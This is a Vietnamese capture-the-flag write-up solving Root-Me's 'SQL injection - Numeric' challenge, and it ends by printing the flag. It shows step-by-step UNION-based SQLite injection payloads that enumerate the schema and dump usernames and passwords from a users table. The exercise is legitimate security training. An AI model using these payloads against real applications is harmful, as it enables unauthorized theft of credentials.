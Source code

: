 # Write up challenge SQL injection - Numeric

Tác giả:
- **Nguyễn Mỹ Quỳnh** <br>

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)<br>
</br>

Truy cập challenge ta thấy gồm 2 trang Login và Accueil. 

<img src="./img/1.png" alt="normal_acc_TRAbID"/> 

Tiến hành attack thử trang Système de news trong Accueil. Thêm ký tự `'` vào sau số 1 thì ta phát hiện lỗi SQL injection 

<img src="./img/1-2.png" alt="normal_acc_TRAbID"/> 

<img src="./img/2.png" alt="normal_acc_TRAbID"/>

<br>

Vậy là ta đã biết trang này sử dụng database là SQLite3.
<br> Đầu tiên sử dụng lệnh: `1’ order by 1--` để kiểm tra số cột cho phép. Nhưng sau khi thử và thực hiện tiếp thì không có kết quả gì và tên bài này cũng là Numeric nên có vẻ dường như ký tự `'` không cần được sử dụng để ngắt chuỗi. 
Thử lại với  `1 order by 1--`

<img src="./img/3.png" alt="normal_acc_TRAbID"/>

Đến `1 order by 4--` thì bị lỗi 

<img src="./img/4.png" alt="normal_acc_TRAbID"/>

Vậy là database này có 3 cột. Tiếp theo kiểm tra xem cột nào có thể khai thác. Gõ lệnh: 1 union select 1,2,3--


<img src="./img/5.png" alt="normal_acc_TRAbID"/>

<div style = "page-break-after: always;"></div>

Ta thấy có thể khai thác tại cột thứ 2 và 3. Tiến hành lấy tên table trong SQLite3 `1 union select 1,sql,3 FROM sqlite_master--` 

<img src="./img/6.png" alt="normal_acc_TRAbID"/>

Lấy giá trị từ table users `1 union select 1,username,password FROM users--`. Có được pass admin:


<img src="./img/7.png" alt="normal_acc_TRAbID"/>


Submit thành công 

<img src="./img/8.png" alt="normal_acc_TRAbID"/>

<br><br>

> **Flag:** aTlkJYLjcbLmue3
